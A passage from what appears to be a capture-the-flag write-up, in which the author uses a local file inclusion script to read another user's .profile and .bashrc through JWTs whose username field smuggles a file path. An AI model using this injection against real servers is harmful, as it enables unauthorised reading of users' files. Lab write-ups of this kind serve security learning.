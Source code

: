`bean` and `christine` both look interesting.  It looks like I can't reach christine's `.profile` file (or it doesn't exist), but I can read bean's `.profile`:

```bash
 $./lfi.sh /home/bean/.profile
Sending JWT with curl request: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NzU0OTU2OTksInVzZXJuYW1lIjoiLycgL2hvbWUvYmVhbi8ucHJvZmlsZSAnLyJ9.TzLw2s13gwZy-eF-QaosBNv3hd09CCvBl0IEfGePm6A
# ~/.profile: executed by the command interpreter for login shells.
# This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login
# exists.
# see /usr/share/doc/bash/examples/startup-files for examples.
# the files are located in the bash-doc package.

# the default umask is set in /etc/profile; for setting the umask
# for ssh logins, install and configure the libpam-umask package.
#umask 022

# if running bash
if [ -n "$BASH_VERSION" ]; then
    # include .bashrc if it exists
    if [ -f "$HOME/.bashrc" ]; then
	. "$HOME/.bashrc"
    fi
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/bin" ] ; then
    PATH="$HOME/bin:$PATH"
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/.local/bin" ] ; then
    PATH="$HOME/.local/bin:$PATH"
fi
```

How about bean's `.bashrc` file located at `/home/bean/.bashrc`:

```bash
$./lfi.sh /home/bean/.bashrc
Sending JWT with curl request: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NzU0OTU3NjMsInVzZXJuYW1lIjoiLycgL2hvbWUvYmVhbi8uYmFzaHJjICcvIn0.WWGbwmemekjTYLr8C6A00xCmO45oz7oNLvKO_BriKd0
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples

# If not running interactively, don't do anything
case $- in
    *i*) ;;
      *) return;;
esac

# don't put duplicate lines or lines starting with space in the history.
# See bash(1) for more options
HISTCONTROL=ignoreboth

# append to the history file, don't overwrite it
shopt -s histappend

# for setting history length see HISTSIZE and HISTFILESIZE in bash(1)
HISTSIZE=1000
HISTFILESIZE=2000

# check the window size after each command and, if necessary,
# update the values of LINES and COLUMNS.
```
